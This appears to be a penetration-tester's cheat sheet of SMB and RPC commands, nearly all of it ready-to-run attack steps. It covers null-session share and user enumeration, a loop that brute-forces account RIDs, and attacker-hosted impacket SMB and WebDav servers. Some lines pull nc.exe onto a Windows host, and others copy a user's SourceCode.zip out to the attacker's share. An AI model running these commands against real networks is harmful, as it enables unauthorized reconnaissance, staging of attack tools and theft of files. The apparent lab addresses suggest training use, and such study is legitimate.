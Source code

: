 #### Shares
```shell
smbclient -L '\\<IP>'
```

```shell
smbclient -N '\\<IP>\<share>\'
```

```shell
smbclient -U <users> -L '\\<IP>\\<sharename>'
```

```shell
smbclient -U <user> '\\<IP>\\<sharename>'
```
#### Status
```shell
smbstatus
```
## SMB Downloads
#### Create the SMB Server
```shell
sudo impacket-smbserver share -smb2support /tmp/smbshare
```
#### Copy a File from the SMB Server
```cmd
copy \\192.168.220.133\share\nc.exe
```
#### Create the SMB Server with a Username and Password
```shell
sudo impacket-smbserver share -smb2support /tmp/smbshare -user test -password test
```
#### Mount the SMB Server with Username and Password
```cmd
net use n: \\192.168.220.133\share /user:test test
```
```
copy \\192.168.220.133\share\nc.exe
```
## SMB Uploads
### WebDav
```shell
sudo pip3 install wsgidav cheroot
```
#### WebDav Python
```shell
sudo wsgidav --host=0.0.0.0 --port=80 --root=/tmp --auth=anonymous 
```
#### Webdav Share
```cmd
dir \\192.168.49.128\DavWWWRoot
```
#### Uploading Files using SMB
```cmd
copy C:\Users\john\Desktop\SourceCode.zip \\192.168.49.129\DavWWWRoot\
```
```cmd
copy C:\Users\john\Desktop\SourceCode.zip \\192.168.49.129\sharefolder\
```
## RPCclient
```shell
rpcclient -U "" 10.129.14.128
```
#### Enumeration
```rpc
srvinfo

enumdomains

querydominfo

netshareenumall

netsharegetinfo notes
```
#### User Enumeration
```shell
enumdomusers

queryuser <user>
```
#### Group Information
```shell
querygroup <group>
```
#### Brute Forcing User RIDs
```shell
for i in $(seq 500 1100);do rpcclient -N -U "" 10.129.14.128 -c "queryuser 0x$(printf '%x\n' $i)" | grep "User Name\|user_rid\|group_rid" && echo "";done
```
#### Impacket - Samrdump.py
```shell
samrdump.py 10.129.14.128
```
#### SMBmap
```shell
smbmap -H <IP>
```
#### CrackMapExec
```shell
crackmapexec smb 10.129.14.128 --shares -u '' -p ''
```
#### Enum4Linux
```
enum4linux <IP> -A
```
